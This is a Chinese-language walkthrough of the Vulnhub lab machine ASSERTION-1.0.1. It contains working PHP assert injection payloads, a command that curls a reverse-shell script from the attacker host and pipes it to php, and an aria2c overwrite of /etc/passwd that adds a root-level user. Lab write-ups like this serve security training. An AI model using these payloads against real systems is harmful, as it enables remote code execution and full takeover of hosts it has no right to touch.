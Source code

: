 ```yaml
---

title: Vulnhub 495	ASSERTION-1.0.1
date: 2020-06-28 
---
```


考点：LFI,GTFOBins 

靶机链接：<https://www.vulnhub.com/entry/assertion-101,495/>
<!--more-->
## 环境配置

| 名称            | IP             |
| --------------- | -------------- |
| Kali Linux      | 192.168.88.128 |
| ASSERTION-1.0.1 | 192.168.88.129 |

## 初步打点

### 端口扫描

```bash
$ export rip=192.168.88.129
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Assertion
```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/495/1.jpg)

![2](https://static.iihack.com/vulnhub/495/2.jpg)

大概率存在LFI，数次尝试失败，[盲猜asset的LFI，参考](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

```bash
http://192.168.88.129/index.php?page=./blog' and die(show_source('/etc/passwd')) or '
http://192.168.88.129/index.php?page=./blog' and die(system('pwd')) or '
```

![3](https://static.iihack.com/vulnhub/495/3.jpg)

![4](https://static.iihack.com/vulnhub/495/4.jpg)

## 获得权限

本地Kali 监听端口444

修改`/usr/share/laudanum/php/php-reverse-shell.php`中的`ip`和`port`，使用`python -m http.server 80`开启web服务

下载反弹shell脚本并执行

```bash
http://192.168.88.129/index.php?page=./blog' and die(system("curl http://192.168.88.128/php-reverse-shell.php|php")) or '
```

![5](https://static.iihack.com/vulnhub/495/5.jpg)

成功接收反弹shell


## 提权

运行linpeas.sh发现

![6](https://static.iihack.com/vulnhub/495/6.jpg)

[上GTFOBins查询了一下](https://gtfobins.github.io/gtfobins/aria2c/)

可以aria2c覆盖`/etc/passwd`文件

先查看`$ cat /etc/passwd`内容，使用openssl生成密码hash，密码是`password`

![7](https://static.iihack.com/vulnhub/495/7.jpg)

再在本地web目录passwd文件中添加

```bash
ii:$1$Pn/iC2y8$HoH1HDv3n0uGse8fQUgvR.:0:0:root:/root:/bin/bash
```
覆写靶机`passwd`文件

```bash
$ aria2c -o /etc/passwd "http://192.168.88.128/passwd"  --allow-overwrite=true
```

写入后切换ii，密码输入`password`

![8](https://static.iihack.com/vulnhub/495/8.jpg)

